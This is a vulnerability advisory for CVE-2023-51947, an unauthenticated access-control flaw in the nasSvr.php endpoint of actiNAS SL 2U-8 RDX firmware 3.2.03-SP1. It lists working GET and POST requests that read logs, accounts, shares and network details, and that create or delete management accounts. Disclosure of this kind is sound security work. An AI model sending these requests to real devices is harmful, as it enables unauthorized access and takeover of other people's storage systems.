 # CVE-2023-51947

## Description

Improper access control on nasSvr.php in actidata actiNAS SL 2U-8 RDX 3.2.03-SP1 allows remote attackers to read and modify different types of data without authentication.

## Affected systems

The web application version 3.2.03-SP1 from actiNAS Plus SL 2U-8 RDX.

Product link: https://www.actidata.com/index.php/de-de/actinas-plus-sl-2u-8-rdx

## Author

Eduard Agavriloae

## Details

The web application through the endpoint /nasSvr.php allows reading and writing operations over multiple types of data unauthenticated.

According to CVE-2023-51948 the web application is vulnerable to a site-wide directory listing vulnerability. Because of this, you can read from the client-side files the structure of the queries required for reading or writing data.

This information can be found in the files under `/app/model`.

For example, we can find at `/app/model/sysMonitor/SysLogm.js` that the endpoint `/nasSvr.php` has a function called `getSysLogList` as it can be seen in the next screenshot: 

![image](https://github.com/saw-your-packet/CVEs/assets/38787278/90e2e0b8-697f-4bea-8db1-d37d7cc107dd)

Even if the client-side code states that the function can be called via POST request, it actually works from GET requests too. If we access the function in question at `/nasSvr.php?func=getSysLogList` we will get the system logs even if we are not authenticated:

![image](https://github.com/saw-your-packet/CVEs/assets/38787278/541d161c-829a-478e-83ee-2e084fb2b30e)

Other operations of interest:

|Endpoint|Details|
|-|-|
|GET /nasSvr.php?func=accountMgr&op=getAccList|Will retrieve list of accounts|
|POST /nasSvr.php?func=accountMgr&op=addAcc|Will create a new management account|
|POST /nasSvr.php?func=accountMgr&op=delAcc|Will delete or update a management account|
|GET /nasSvr.php?func=accountMgr&op=getDirectory|Will retrieve a list of configurations for directories|
|GET /nasSvr.php?func=accountMgr&op=getGroupList|Will retrive a list of user groups|
|GET /nasSvr.php?func=storageMgr&op=getArrayList|Will retrieve a list of disks|
|GET /nasSvr.php?func=storageMgr&op=getPdList|Will retriee a list of partitions|
|GET /nasSvr.php?func=homeMgr&op=getMgrAppList&parent=home|Will return a list of services and their home folder|
|GET /nasSvr.php?func=homeMgr&op=getSearchResult|Will return a list of services and their home folder|
|GET /nasSvr.php?func=homeMgr&op=getQucikInitDefaultSet| Will return the network interface configuration|
|GET /nasSvr.php?func=iscsiMgr&op=getNicList|Will return network interface names and IPs|
|GET /nasSvr.php?func=shareMgr&op=getShareList|Will return list of shares along with permissions and ownership|
|GET /nasSvr.php?func=shareMgr&op=getShareMgrTree|Will return list of shares|
|GET /nasSvr.php?func=getSysInfo|Will return hardware and software versions aong with network details|
|GET /nasSvr.php?func=getNetAdapterList|Will return network adaptors information|
|GET /nasSvr.php?func=storageMgr&op=getLvList&type=free|Will return volumes|

## Other versions

My feeling is that other versions are affected as well, but I didn't found other instances of this product in order to validate.
